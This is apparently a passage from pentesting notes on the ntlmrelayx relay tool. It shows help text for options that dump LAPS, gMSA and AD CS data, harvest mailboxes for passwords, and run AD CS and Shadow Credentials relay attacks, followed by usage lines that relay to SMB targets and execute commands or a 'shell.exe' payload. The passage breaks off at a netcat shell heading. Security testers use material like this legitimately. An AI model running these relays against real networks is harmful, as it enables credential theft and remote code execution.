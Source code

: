 ```
  --add-computer [COMPUTERNAME [PASSWORD ...]]
                        Attempt to add a new computer account
  --delegate-access     Delegate access on relayed computer account to the specified account
  --sid                 Use a SID to delegate access rather than an account name
  --dump-laps           Attempt to dump any LAPS passwords readable by the user
  --dump-gmsa           Attempt to dump any gMSA passwords readable by the user
  --dump-adcs           Attempt to dump ADCS enrollment services and certificate templates info

IMAP client options:
  -k KEYWORD, --keyword KEYWORD
                        IMAP keyword to search for. If not specified, will search for mails containing "password"
  -m MAILBOX, --mailbox MAILBOX
                        Mailbox name to dump. Default: INBOX
  -a, --all             Instead of searching for keywords, dump all emails
  -im IMAP_MAX, --imap-max IMAP_MAX
                        Max number of emails to dump (0 = unlimited, default: no limit)

AD CS attack options:
  --adcs                Enable AD CS relay attack
  --template TEMPLATE   AD CS template. Defaults to Machine or User whether relayed account name ends with `$`. Relaying a DC should require specifying `DomainController`
  --altname ALTNAME     Subject Alternative Name to use when performing ESC1 or ESC6 attacks.

Shadow Credentials attack options:
  --shadow-credentials  Enable Shadow Credentials relay attack (msDS-KeyCredentialLink manipulation for PKINIT pre-authentication)
  --shadow-target SHADOW_TARGET
                        target account (user or computer$) to populate msDS-KeyCredentialLink from
  --pfx-password PFX_PASSWORD
                        password for the PFX stored self-signed certificate (will be random if not set, not needed when exporting to PEM)
  --export-type {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))
  --cert-outfile-path CERT_OUTFILE_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
```

### 1.2 - Usage

TODO: Fill more info

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -c <commands>`

`$ sudo ntlmrelayx -tf targets.txt -smb2support -c <commands>`

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx -tf targets.txt -smb2support -e shell.exe`

- **Interactive shell with netcat**
